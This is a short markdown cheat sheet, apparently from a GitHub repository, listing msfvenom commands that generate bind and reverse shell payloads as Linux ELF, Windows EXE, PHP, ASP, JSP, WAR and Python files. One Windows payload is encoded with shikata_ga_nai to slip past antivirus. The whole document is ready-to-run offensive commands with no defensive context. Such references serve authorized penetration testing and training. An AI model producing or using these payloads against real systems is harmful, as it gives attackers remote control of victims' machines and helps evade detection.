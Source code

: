 ###### Linux Bind Shell
```
msfvenom -p generic/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > term.elf
```

###### Windows Meterpreter Reverse TCP Shell
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe
```

###### Windows Reverse TCP Shell
```
msfvenom -p windows/shell/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe
```

###### Windows Encoded Meterpreter Windows Reverse Shell
```
msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe
```

## Web Payloads

###### PHP Meterpreter Reverse TCP
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.php
```

###### ASP Meterpreter Reverse TCP
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f asp > shell.asp
```

###### JSP Java Meterpreter Reverse TCP
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp
```

## WAR
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f war > shell.war
```

## Scripting Payloads

###### Python Reverse Shell
```
msfvenom -p cmd/unix/reverse_python LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.py
```
